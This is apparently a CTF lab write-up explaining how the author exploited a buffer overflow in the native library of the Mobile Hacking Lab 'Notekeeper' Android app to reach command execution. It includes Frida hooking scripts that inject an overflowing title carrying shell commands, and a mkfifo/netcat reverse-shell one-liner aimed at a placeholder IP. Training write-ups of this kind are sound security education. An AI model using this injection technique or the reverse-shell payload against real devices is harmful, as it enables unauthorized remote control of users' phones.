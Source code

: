 ```yaml
---
title:  "Mobile Hacking Lab Notekeeper Writeup"
date:   2024-01-22T16:33:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Notekeeper](https://www.mobilehackinglab.com/course/lab-notekeeper) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a blank screen and with button and with this button we can create notes. When we examine the manifest file, we see that we have one activity(MainActivity). Let's start with it.

### MainActivity

At the beginning of this activity, we see this line:
```java
public final native String parse(String str);
```
It means that we have a native library and we will use `parse` function from this lib file. 

![](/assets/images_mhl_notekeeper/lib.png)

There is a one libnotekeeper.so file inside the apk. But this library file compiled only for arm64-v8a architecture. Because of that i can't run this app on genymotion vm (my pc don't have arm cpu). [Also arm translation tools not supports arm v8 arch.](https://support.genymotion.com/hc/en-us/articles/360010029677-How-to-run-applications-for-arm64-aarch64-armv8#:~:text=Genymotion%20Desktop,PC%20(Windows%2FLinux).) So, I have used corellium instance that provided by MobileHackingLab. 

![](/assets/images_mhl_notekeeper/parse.png)

When we adding a new note, title string passed to parse function from native lib. We can analyze native library file with ghidra decompiler.

![](/assets/images_mhl_notekeeper/ghidra.png)

Inside this function our title variable copied to another char array with for loop. But for loop count, our title's lenght is used and `local_2a4` array have 100 char size. What happens if we give a title longer than 100 characters? 

Also we can see that with memcpy function, `Log \"Note added at $(date)\` string copied to `acStack576` variable and later it will passed to the system function for executing code.👀

I wrote a small frida script for tracing the parameters of `system` and `parse` fucntions. I cant copy-paste from my pc to corellium instance and with this script i can change the argument of parse method with this script easily.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');

    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEF");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});
```

This time i gave `100*"A" + "BCDEF"` to title. Lets see whats happened:

![](/assets/images_mhl_notekeeper/frida_test2.png)

We have succesfully overwite to `acStack576` variable and our input passed to system function. To understand better, we can use hexdump to follow memory state.

![](/assets/images_mhl_notekeeper/memory1.png)

As seen in screnshot, our title variable written before the text passed to stsyem function. If we can give input longer than 100 char, its overwritten.

![](/assets/images_mhl_notekeeper/memory2.png)

### Code Execution

If we can overwite `system` function argument, we can run command what we want. For testing, i run a http server and from phone, i will download it to app's local directory.

```js
Java.perform(function(){
    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    const JavaString = Java.use('java.lang.String');
    MainActivity["parse"].implementation = function(str){
        const payload = JavaString.$new("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAid > /data/data/com.mobilehackinglab.notekeeper/poc.txt;#");
        console.log("parse func called with this arg ==> " + payload);
        const new_ret = this["parse"](payload);
        return new_ret;
    }
});

Interceptor.attach(Module.getExportByName('libc.so', 'system'), {
    onEnter(args) {
        var param1 = Memory.readUtf8String(args[0]);
        console.log("system function param1 ==> " + param1);
    },
    onLeave(retval) {
      
    }
});

```

![](/assets/images_mhl_notekeeper/poc1.png)

We can execute command🎉🎉🎉
Here is the poc video with another command:

[![](https://img.youtube.com/vi/8RmEMxs_Lpk/0.jpg)](https://youtu.be/8RmEMxs_Lpk)

Also we can get reverse shell :).
Payload:
```sh
rm /data/data/com.mobilehackinglab.notekeeper/f;mkfifo /data/data/com.mobilehackinglab.notekeeper/f;cat /data/data/com.mobilehackinglab.notekeeper/f|sh -i 2>&1|nc IP_ADDRESS 1337 >/data/data/com.mobilehackinglab.notekeeper/f
```
Here is poc video:

[![](https://img.youtube.com/vi/V59MJxXag_0/0.jpg)](https://youtu.be/V59MJxXag_0)

Thanks for reading! See you in next writeups 👋🏻👋🏻
